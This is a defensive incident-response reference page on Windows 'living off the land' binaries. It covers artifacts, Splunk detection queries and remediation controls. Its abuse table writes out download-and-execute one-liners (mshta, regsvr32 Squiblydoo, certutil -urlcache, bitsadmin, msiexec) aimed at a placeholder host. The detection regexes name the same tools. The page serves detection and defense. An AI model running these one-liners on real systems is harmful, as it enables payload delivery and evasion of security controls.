

# LOLBins — Signed Binary Proxy Execution

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1218 (System Binary Proxy Execution) — .005 Mshta · .010 Regsvr32 · .011 Rundll32 · .007 Msiexec · T1105 (Ingress Tool Transfer) · T1127.001 (MSBuild) · T1197 (BITS Jobs) · **Tactic:** Defense Evasion / Execution · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    "Living off the land" binaries are **Microsoft-signed tools that ship with Windows** but can download files, run scripts or load arbitrary DLLs. Attackers use them because they pass application allow-lists that trust "signed by Microsoft", they blend into normal admin activity, and AV is reluctant to block them. The [LOLBAS project](https://lolbas-project.github.io/) catalogues 200+ of them. The defender's advantage: each one has a **narrow normal use**, so the *parent process* and *command line* betray abuse.

## How the attack works



## Attacker tooling / commands

| Binary | Abuse (recognition patterns) | Normal use |
|---|---|---|
| `mshta.exe` | `mshta http://x/a.hta` · `mshta vbscript:Execute(...)` · `mshta javascript:...` | Almost none in modern enterprises |
| `regsvr32.exe` | `regsvr32 /s /n /u /i:http://x/a.sct scrobj.dll` ("Squiblydoo") | Registering local COM DLLs during installs |
| `rundll32.exe` | `rundll32 javascript:"\..\mshtml,RunHTMLApplication ";...` · `rundll32 C:\Users\Public\x.dll,Start` | Loading system DLL entry points (`shell32.dll,Control_RunDLL`) |
| `certutil.exe` | `certutil -urlcache -split -f http://x/p.exe p.exe` · `certutil -decode b64.txt p.exe` | Certificate management |
| `bitsadmin.exe` / BITS | `bitsadmin /transfer j /download /priority high http://x/p.exe C:\p.exe` · `Start-BitsTransfer` | Windows Update, SCCM |
| `msiexec.exe` | `msiexec /q /i http://x/p.msi` | Software installs from local/UNC paths |
| `msbuild.exe` | `msbuild C:\Users\Public\x.csproj` (inline C# task) | Developer builds only |
| `installutil.exe` | `installutil /logfile= /LogToConsole=false /U x.dll` | .NET service installs |
| `wmic.exe` | `wmic process call create`, `wmic os get /format:"http://x/a.xsl"` (XSL script) | Admin queries (deprecated in 11) |
| `curl.exe` | `curl -o p.exe http://x/p.exe` | Present since 10 1803 — devs/admins |

## Affected Windows versions

| Binary | XP | 7 | 10 | 11 | Notes |
|---|---|---|---|---|---|
| rundll32 / regsvr32 / msiexec | ✅ | ✅ | ✅ | ✅ | Every version |
| mshta | ✅ | ✅ | ✅ | ✅ | IE engine; still present in 11 |
| certutil | Server 2003 / Admin Pack | ✅ | ✅ | ✅ | `-urlcache` download works on all modern versions |
| bitsadmin | XP SP2 Support Tools | ✅ | ✅ (deprecated) | ✅ | BITS service itself on all versions |
| msbuild / installutil | with .NET | ✅ | ✅ | ✅ | Ship with .NET Framework |
| curl.exe | — | — | 1803+ | ✅ | |
| wmic | ✅ | ✅ | ✅ | Feature-on-demand, being removed | |

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| Sysmon 1 / 4688 | Command line patterns in the table above; **parent** = `winword.exe`, `excel.exe`, `outlook.exe`, `wscript.exe`, `explorer.exe` (LNK) | Abuse vs. normal use is mostly visible here |
| Sysmon | **3** (network connection) from `mshta`, `regsvr32`, `rundll32`, `msbuild`, `certutil`, `installutil` | These rarely make outbound connections |
| Sysmon | **22** (DNS query) by the same images | DNS before the download |
| Sysmon | **11** file created by `certutil`/`bitsadmin` in `%TEMP%`, `Public`, `ProgramData` | The dropped stage |
| BITS | `Microsoft-Windows-Bits-Client/Operational` **3** (job created), **59/60** (transfer started/stopped with URL) | URL and file of every BITS job — great for retrospective hunting |
| File system | `certutil` cache: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content\` | Copy of downloaded file + URL in `MetaData` |
| Execution evidence | [Prefetch](../windows/prefetch.md) for `MSHTA.EXE`, `MSBUILD.EXE` (rare on most hosts); [Amcache](../windows/amcache.md) | Which LOLBins ran, when |

## Detection

=== "Splunk — LOLBin download/exec patterns"

    ```spl
    index=botsv3 (sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1) OR (sourcetype=WinEventLog EventCode=4688)
    | eval cmd=lower(coalesce(CommandLine, Process_Command_Line))
    | where match(cmd,"certutil.*(urlcache|-decode|verifyctl)|bitsadmin.*/transfer|regsvr32.*/i:\s*https?|scrobj\.dll|mshta\s+(https?|vbscript|javascript)|rundll32.*javascript:|msiexec.*/i\s*https?|msbuild.*\.(csproj|xml|proj)\b|installutil.*/u")
    | table _time, host, User, ParentImage, cmd
    ```

    One regex per LOLBin abuse pattern, joined with `|` (OR). `\s*` means "any spaces", `https?` matches `http` or `https`. Expect very few hits; each should be explainable by a named software install.

=== "Splunk — Office spawning LOLBins"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval parent=lower(replace(ParentImage,".*\\\\","")), child=lower(replace(Image,".*\\\\",""))
    | where parent IN ("winword.exe","excel.exe","powerpnt.exe","outlook.exe","onenote.exe","wscript.exe","cscript.exe")
      AND child IN ("mshta.exe","regsvr32.exe","rundll32.exe","certutil.exe","bitsadmin.exe","msiexec.exe","msbuild.exe","cmd.exe","powershell.exe")
    | stats count by host, parent, child, CommandLine
    ```

    The parent/child pair is the strongest signal: Word has no reason to start `mshta.exe` or `regsvr32.exe`.

=== "Splunk — LOLBins with network"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=3
    | eval img=lower(replace(Image,".*\\\\",""))
    | where img IN ("mshta.exe","regsvr32.exe","rundll32.exe","msbuild.exe","installutil.exe","certutil.exe","cmstp.exe")
    | stats count, values(DestinationIp) as dst, values(DestinationPort) as port by host, img
    ```

    Sysmon `3` = network connection. These images talking to the internet should be near-zero in your baseline.

## Response

Pull the downloaded/next-stage file (certutil cache, BITS job, `%TEMP%`), hash it, and pivot on the URL/domain across proxy and DNS logs to find other victims. Trace the parent back to the lure (email attachment, LNK, ISO — see [Phishing delivery](phishing-delivery.md)).

### Remediation by Windows version

| Control | What it stops | Available on |
|---|---|---|
| **WDAC** with Microsoft's *recommended block rules* (blocks msbuild, installutil, mshta, etc. for normal users) | Execution of the abused binaries | 10 / 2016+ |
| **AppLocker** deny rules for the same binaries | Same, simpler | 7 Enterprise/Ultimate, 2008 R2+ |
| **Software Restriction Policies** | Basic path/hash blocking | XP / 2003 → (deprecated) |
| **ASR** — *Block Office from creating child processes*, *Block JS/VBS from launching downloaded content*, *Block executable files unless they meet prevalence/age criteria*, *Block Win32 API calls from Office macros* | Lure → LOLBin chains | 10 1709+, Server 2019+ |
| Remove/disable unneeded components: WMIC (feature-on-demand), mshta via file association / WDAC | Reduces surface | 11 (WMIC removable); all via WDAC/AppLocker |
| Egress proxy with auth; block direct internet from workstations | Download cradles | All |
| Enable Sysmon 1/3/22 + BITS operational log collection | Visibility | Sysmon 10 / 2012 R2+; BITS log Vista+ |

## References

- [LOLBAS project](https://lolbas-project.github.io/)
- [Microsoft — WDAC recommended block rules](https://learn.microsoft.com/windows/security/application-security/application-control/app-control-for-business/design/applications-that-can-bypass-appcontrol)
- [MITRE ATT&CK — T1218](https://attack.mitre.org/techniques/T1218/) · [T1105](https://attack.mitre.org/techniques/T1105/) · [T1197](https://attack.mitre.org/techniques/T1197/)
- Pages: [Phishing delivery](phishing-delivery.md) · [PowerShell cradles](powershell-cradles.md) · [Prefetch](../windows/prefetch.md)
